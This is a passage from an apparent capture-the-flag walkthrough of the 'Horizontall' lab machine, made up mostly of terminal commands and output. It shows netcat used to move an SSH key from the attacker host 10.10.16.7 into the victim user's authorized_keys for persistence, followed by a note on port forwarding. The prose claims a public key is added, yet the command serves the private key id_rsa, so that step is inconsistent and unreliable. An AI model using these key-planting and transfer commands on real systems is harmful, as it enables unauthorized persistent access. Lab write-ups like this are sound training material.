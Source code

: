 ```
|        S.    . .|
|             .   |
|            . .  |
|             E   |
|                 |
+----[SHA256]-----+
                                                                                        
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 6060 < /home/kali/.ssh/id_rsa                                          2 ⚙
listening on [any] 6060 ...
```

Checking the permissions on ```/opt```, we realize that the user ```strapi``` has write permissions

```
strapi@horizontall:~/myapi$ ls -la /opt         
ls -la /opt
total 12
drwxr-xr-x  3 root   root   4096 May 26 14:24 .
drwxr-xr-x 24 root   root   4096 Aug 23 11:29 ..
drwxr-xr-x 10 strapi strapi 4096 Sep 19 04:29 strapi
```

Now, we will add the SSH public key into our list of authorized keys on our victim machine
```
strapi@horizontall:~/myapi$ cd /opt/strapi
cd /opt/strapi
strapi@horizontall:~$ ls -la
ls -la
total 52
drwxr-xr-x 10 strapi strapi 4096 Sep 19 04:29 .
drwxr-xr-x  3 root   root   4096 May 26 14:24 ..
-rw-r--r--  1 strapi strapi  231 Jun  1 12:50 .bash_logout
-rw-r--r--  1 strapi strapi 3810 Jun  1 12:49 .bashrc
drwx------  2 strapi strapi 4096 May 26 14:29 .cache
drwx------  3 strapi strapi 4096 May 26 14:30 .config
drwx------  3 strapi strapi 4096 Sep 19 04:17 .gnupg
drwxrwxr-x  3 strapi strapi 4096 Jun  1 12:07 .local
drwxr-xr-x  9 strapi strapi 4096 Sep 19 04:15 myapi
drwxrwxr-x  5 strapi strapi 4096 Sep 19 04:40 .npm
drwxrwxr-x  5 strapi strapi 4096 Sep 19 04:00 .pm2
-rw-r--r--  1 strapi strapi  807 Apr  4  2018 .profile
drwxrwxr-x  2 strapi strapi 4096 Sep 19 04:29 .ssh
strapi@horizontall:~$ mkdir ~/.ssh
mkdir ~/.ssh
strapi@horizontall:~$ cd .ssh
cd .ssh
strapi@horizontall:~/.ssh$ nc -nv 10.10.16.7 6060 > authorized_keys
nc -nv 10.10.16.7 6060 > authorized_keys
Connection to 10.10.16.7 6060 port [tcp/*] succeeded!
```

Afterwards, we will do the port-forwarding on our attacker machine. We also notice that we are able to view a Laravel page on ```http://127.0.0.1:8000```
